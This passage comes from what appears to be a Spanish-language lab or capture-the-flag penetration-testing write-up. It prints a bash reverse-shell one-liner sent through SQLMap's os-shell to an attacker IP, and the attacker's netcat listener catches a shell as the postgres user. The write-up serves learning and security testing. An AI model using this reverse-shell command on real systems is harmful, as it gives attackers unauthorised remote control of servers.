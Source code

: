 🧠 **Análisis:**  
No se encuentra un archivo `config.php`, por lo que no hay credenciales directas. El archivo `license.txt` indica que el sitio está basado en un tutorial público, lo que puede implicar prácticas inseguras o contraseñas por defecto.

## 💻 Paso 9 – Establecer reverse shell persistente

🎯 **Objetivo:** Obtener una reverse shell interactiva más estable que permita mayor control.

📎 **Comando lanzado desde SQLMap (os-shell):**

```bash
bash -c "bash -i >& /dev/tcp/10.10.16.54/443 0>&1"
```


![](../img/a56bd4409ec54124889846426ddcbe8e.png)

📎 **En el atacante:**

![](../img/5aa509bdf19fe1d3a58c68b5caeed769.png)

📥 **Resultado:**

- Se recibe la shell en `nc`.
    
- Usuario: `postgres`
    
- Ruta actual: `/var/lib/postgresql/11/main`
    